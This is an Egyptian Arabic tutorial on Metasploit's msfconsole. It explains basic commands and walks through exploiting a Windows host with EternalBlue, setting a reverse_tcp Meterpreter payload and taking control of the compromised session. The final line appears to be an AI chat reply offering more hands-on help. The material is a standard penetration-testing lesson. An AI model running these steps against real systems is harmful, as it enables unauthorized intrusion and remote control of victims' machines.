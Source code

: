 

#### **📌 ما هو MSFConsole؟**

 هو الواجهة الأساسية للتحكم في Metasploit، وهو عبارة عن **سطر أوامر (CLI)** يسمح لك بتنفيذ جميع وظائف Metasploit بسهولة.

✳️ **باختصار:**

- **هو المحطة الرئيسية** اللي بتستخدمها لاختبار الاختراق.
- **بيسمح لك** بالبحث عن الثغرات، إعداد الهجمات، تنفيذها، والتحكم في الجلسات المخترقة.
- بيتميز **بسهولة التنقل** فيه ووجود أوامر قوية لتنفيذ أي نوع من الهجمات.

---

### **💡 الخلاصة بالمصري:**

**MSFConsole** = هو **المكان اللي بتكتب فيه الأوامر** عشان تنفذ هجومك باستخدام Metasploit، زي الـ Terminal كده بس مخصص للاختراق.

---

## **🛠️ مميزات MSFConsole**

🔹 فيه **أوامر متكاملة** للتحكم في كل أدوات Metasploit.  
🔹 بيتيح لك **البحث عن الثغرات والـ Exploits بسهولة**.  
🔹 تقدر **تعدل الإعدادات وتشغل الهجمات وتتحكم في الـ Sessions**.  
🔹 فيه دعم لـ **Autocomplete** عشان تسهل الكتابة وتسرّع استخدام الأوامر.

---

### **💡 الخلاصة بالمصري:**

- **MSFConsole مش بس مكان تكتب فيه أوامر، هو مركز القيادة بتاع Metasploit.**
- تقدر تدور على ثغرات، تحضر الهجوم، تنفذه، وتتحكم في الأجهزة اللي اخترقتها.

---

## **🔹 أوامر أساسية في MSFConsole**

(دي أهم الأوامر اللي هتحتاجها، ومعاها وظيفتها)

| **الأمر**                  | **الوظيفة**                                                                           |
| -------------------------- | ------------------------------------------------------------------------------------- |
| `msfconsole`               | تشغيل Metasploit                                                                      |
| `search exploit_name`      | البحث عن استغلال معين (مثلاً `search ftp`)                                            |
| `use exploit/path`         | استخدام Exploit معين (مثلاً `use exploit/windows/smb/ms17_010_eternalblue`)           |
| `show options`             | عرض الإعدادات المطلوبة للهجوم                                                         |
| `set RHOSTS target_ip`     | تحديد هدف الهجوم (مثلاً `set RHOSTS 192.168.1.10`)                                    |
| `set LHOST attacker_ip`    | تحديد IP المهاجم لاستقبال الاتصال العكسي                                              |
| `set PAYLOAD payload_type` | اختيار نوع الـ Payload المستخدم (مثلاً `set PAYLOAD windows/meterpreter/reverse_tcp`) |
| `exploit`                  | تنفيذ الهجوم بعد ضبط الإعدادات                                                        |
| `sessions -l`              | عرض الأجهزة المخترقة والتحكم فيها                                                     |
| `sessions -i session_id`   | الدخول إلى جلسة مخترقة (مثلاً `sessions -i 1`)                                        |

---

### **💡 الخلاصة بالمصري:**

- هتشغل MSFConsole بالأمر `msfconsole`.
- هتبحث عن ثغرة باستخدام `search`.
- هتستخدم ثغرة معينة بأمر `use`.
- هتحدد الهدف بـ `set RHOSTS`.
- هتشغل الهجوم بـ `exploit`.
- لو الاختراق نجح، هتتحكم في الجهاز المخترق بـ `sessions`.

---

## **🎯 خطوات عملية لاستخدام MSFConsole في اختراق جهاز**

🚀 **الخطوة 1:** شغل Metasploit

```bash
msfconsole
```

🚀 **الخطوة 2:** ابحث عن ثغرة مناسبة

```bash
search smb
```

🚀 **الخطوة 3:** اختار الثغرة اللي هتستخدمها

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

🚀 **الخطوة 4:** اعرض الإعدادات المطلوبة

```bash
show options
```

🚀 **الخطوة 5:** حدد الهدف (IP الجهاز اللي عايز تخترقه)

```bash
set RHOSTS 192.168.1.10
```

🚀 **الخطوة 6:** حدد الجهاز اللي هيستقبل الاتصال العكسي (جهازك)

```bash
set LHOST 192.168.1.50
```

🚀 **الخطوة 7:** اختار الـ Payload اللي هتستخدمه

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

🚀 **الخطوة 8:** نفذ الهجوم

```bash
exploit
```

🚀 **الخطوة 9:** لو الاختراق نجح، هتتحكم في الجهاز المخترق

```bash
sessions -l   # لعرض الجلسات المفتوحة
sessions -i 1 # الدخول إلى الجلسة رقم 1
```

---

### **💡 الخلاصة بالمصري:**

1️⃣ شغل Metasploit بـ `msfconsole`.  
2️⃣ دور على ثغرة مناسبة بـ `search`.  
3️⃣ استخدمها بـ `use`.  
4️⃣ حدد هدفك بـ `set RHOSTS`.  
5️⃣ حدد نفسك كمهاجم بـ `set LHOST`.  
6️⃣ اختار نوع الاختراق بـ `set PAYLOAD`.  
7️⃣ نفذ الهجوم بـ `exploit`.  
8️⃣ لو الاختراق نجح، استخدم `sessions` للتحكم في الجهاز.

---

💡 **لو عايز تطبيق عملي أو شرح نقطة معينة بالتفصيل، قولي ونكمل مع بعض! 🚀**